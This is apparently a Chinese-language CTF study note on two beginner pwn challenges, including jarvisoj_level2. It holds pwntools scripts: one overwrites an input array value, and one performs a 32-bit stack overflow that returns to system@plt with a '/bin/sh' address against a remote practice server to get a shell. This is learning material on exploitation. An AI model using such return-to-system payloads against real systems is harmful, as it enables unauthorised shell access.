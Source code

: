 





编译过程的各个应用及其细节

![image-20220920140435080](../images/image-20220920140435080.png)

字母占多少字节?

<img src="../images/image-20220920140906509.png" alt="image-20220920140906509" style="zoom:50%;" />





#### 题目

![image-20220920170603518](../images/image-20220920170603518.png)





17LL ll是什么意思?? typedef      long long ll; 所以就是十进制

参考

https://blog.csdn.net/m0_43406494/article/details/109110983

让输入的数组的14位等于17即可



```python
from pwn import *

context.log_level= "debug"

io = process("./pwn")

#payload = p32(17) * 14
payload = p32(0x0)*13 + p32(17)
io.recvuntil("name?")
io.sendline(payload)

io.interactive()
```





## jarvisoj_level2

![image-20220920172846673](images/image-20220920172846673.png)

![image-20220920172859138](images/image-20220920172859138.png)

发现/bin/sh

![image-20220920173132605](images/image-20220920173132605.png)

如何利用那个system呢?

![image-20220920173401480](images/image-20220920173401480.png)

![image-20220920173908502](images/image-20220920173908502.png)

![image-20220920174848196](images/image-20220920174848196.png)

栈的结构又忘了..找一下图



```python
from pwn import *

context.log_level= "debug"

#io = process("./pwn")
io = remote("node4.buuoj.cn",27523)

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)
io.sendlineafter('Input:',payload)

io.interactive()
```



有两点需要注意,一个是溢出要先覆盖上一个函数的ebp,这个是32位的,所以+4, 64位的+8

第二个是 加 那个 p32(0), 这里可以随便加,这里是执行system函数后的存储地址



这里其实有好几个system的地址

0x08048320 是plt的

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)

0x0804849e 是对system的调用,直接加入参数即可

payload = b'a'*140 + p32(system_addr) + p32(binsh_addr)









